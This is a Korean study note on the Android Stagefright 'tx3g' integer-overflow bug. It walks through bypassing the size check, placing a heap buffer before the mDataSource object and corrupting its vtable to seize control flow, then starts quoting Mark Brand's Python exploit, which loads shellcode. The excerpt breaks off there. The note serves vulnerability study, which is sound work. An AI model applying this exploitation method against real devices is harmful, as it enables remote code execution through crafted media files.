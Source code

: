 시나리오는 다음과 같다고 한다.

* chunk_size 를 크게 만들어서 lhs 를 minus 로 만들어서 check 를 뚫는다.
* chunk_size 가 minus 로 인식되어서 size 는 32 보다 큰데, chunk_size 를 더하면 32 로 감소되고.
* buffer 를 mDataSource 오브젝트 바로 전에 alloc 되게 한다.
* buffer 는 32 바이트 alloc 되는데, read 는 32 바이트 이상된다.
* `memcpy()` 에서 buffer 뒤에 위치한 MPEG4Source 오브젝트의 vtable 이 오염된다.
* `mDataSource->readAt()` 으로 control flow 가 튀게 된다.

```
case FOURCC('t', 'x', '3', 'g'):
{
    uint32_t type;
    const void *data;
    size_t size = 0;
    if (!mLastTrack->meta->findData(kKeyTextFormatData, &type, &data, &size)) {
        size = 0;
    }

    // chunk_size 를 크게 만들어서 lhs 를 minus 를 만들어서 check 를 뚫는다.
    if (SIZE_MAX - chunk_size <= size) {
        return ERROR_MALFORMED;
    }

    // chunk_size 가 minus 로 인식되어서 size 는 32 보다 큰데, chunk_size 를 더하면 32 로 감소.
    // overflow here, so that size + chunk_size == 32 and size > 32
    uint*_t *buffer = new uint8_t[size + chunk_size];

    // buffer 를 mDataSource 오브젝트 바로 전에 alloc 되게 한다.
    // buffer is allocated immediately before mDataSource
    if (size > 0) {
        // 여기서 MPEG4DataSource 오브젝트의 vtable 을 커럽트 시킨다고 한다.
        // this will overflow and corrupt the mDataSource vtable
        memcpy(buffer, data, size);
    }

    // vtable 를 참조하게 되어서 control flow 가 튀게된다고 한다.
    // this call goes through the corrupt vtable, and we get control of execution
    if ((size_t)(mDataSource->readAt(*offset, buffer + size, chunk_size)) < chunk_size) {
}
```

그러면 이 시나리오를 만들기 위해서 어떻게 box 들을 배치해야 할까?

* 16 bytes 의 `avcC`
* 16 bytes 의 `hvcC`


#### Mark Brand's Exploit

돌아다니는 exploit 에는 2 가지가 있는데, Zimperium 코드랑 Mark Brand 가 쓴 파이썬 코드.

```
#!/usr/bin/python2

import cherrypy
import os
import pwnlib.asm as asm
import pwnlib.elf as elf
import sys
import struct

with open('shellcode.bin', 'rb') as tmp:
    shellcode = tmp.read()

while len(shellcode) % 4 != 0:
    shellcode += '\x00'
```